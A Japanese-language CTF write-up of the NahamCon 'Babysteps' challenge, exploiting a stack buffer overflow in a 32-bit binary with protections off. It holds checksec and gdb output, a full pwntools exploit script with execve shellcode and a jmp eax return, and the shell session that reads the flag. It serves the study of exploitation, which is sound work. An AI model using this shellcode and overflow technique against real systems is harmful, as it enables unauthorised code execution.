 # Babysteps:Binary Exploitation:385pts
Become a baby! Take your first steps and jump around with BABY SIMULATOR 9000!  

**Connect with:**  
```
nc challenge.nahamcon.com 30149
```

**Attachments:** [babysteps](babysteps)　[babysteps.c](babysteps.c)  

# Solution
接続先、バイナリ、ソースが渡される。  
ソースを読むと`ask_baby_name`に自明なBOFがある。  
次にバイナリを調査すると以下のようであった。  
```bash
$ file babysteps
babysteps: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=23b7b1945e8ce3847c586e16d9ccfb70fe7b6973, for GNU/Linux 3.2.0, not stripped
$ checksec babysteps
[*] '/babysteps'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
32bitのELFで、主要なセキュリティ機構がOFFのようだ。  
しかしsystemなどはないため、シェルコードを流し込んでやることを考える。  
その際に`jmp esp`(`ff e4`)を探さなければならない。  
objdumpで探しておく。  
```bash
$ objdump -D babysteps > objdump.txt
$ grep 'ff e4' objdump.txt
```
ないため、代替案を探さなければならい。  
```bash
$ grep 'ff e' objdump.txt
 8049545:       ff e0                   jmp    *%eax
```
`jmp eax`はあるようだ。  
ここでeaxに、入力した文字列へのアドレスが格納されていたことを思い出す。  
```bash
$ gdb ./babysteps
~~~
gdb-peda$ b ask_baby_name
Breakpoint 1 at 0x804929d
gdb-peda$ r
~~~
gdb-peda$ c
Continuing.
First, what is your baby name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd1f0 ('A' <repeats 28 times>, "BBBB")
EBX: 0x41414141 ('AAAA')
ECX: 0xf7faf580 --> 0xfbad208b
EDX: 0xffffd210 --> 0x0
ESI: 0xf7faf000 --> 0x1e7d6c
EDI: 0xf7faf000 --> 0x1e7d6c
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd210 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
~~~
```
入力文字にシェルコードを含めてやればよい。  
シェルコードは[shellcode](https://inaz2.hatenablog.com/entry/2014/03/13/013056)を用いる。  
以下のexploit.pyで行う。  
```python
from pwn import *

elf = ELF("./babysteps")
io = remote("challenge.nahamcon.com", 30149)
#io = process(elf.path)
rop = ROP(elf)

# ref. https://inaz2.hatenablog.com/entry/2014/03/13/013056
shellcode = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

jmp_eax = 0x8049545

base = b"\x90" * 28
payload = base + p32(jmp_eax) + shellcode

io.sendline(payload)
io.interactive()
```
実行する。  
```bash
$ python exploit.py
[*] '/babysteps'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.nahamcon.com on port 30149: Done
[*] Loaded 10 cached gadgets for './babysteps'
[*] Switching to interactive mode
              _)_
           .-'(/ '-.
          /    `    \
         /  -     -  \
        (`  a     a  `)
         \     ^     /
          '. '---' .'
          .-`'---'`-.
         /           \
        /  / '   ' \  \
      _/  /|       |\  \_
     `/|\` |+++++++|`/|\`
          /\       /\
          | `-._.-` |
          \   / \   /
          |_ |   | _|
          | _|   |_ |
          (ooO   Ooo)

=== BABY SIMULATOR 9000 ===
How's it going, babies!!
Are you ready for the adventure of a lifetime? (literally?)

First, what is your baby name?
$ ls
babysteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
```
シェルが得られ、flagがファイルに書かれていた。  

## flag{7d4ce4594f7511f8d7d6d0b1edd1a162}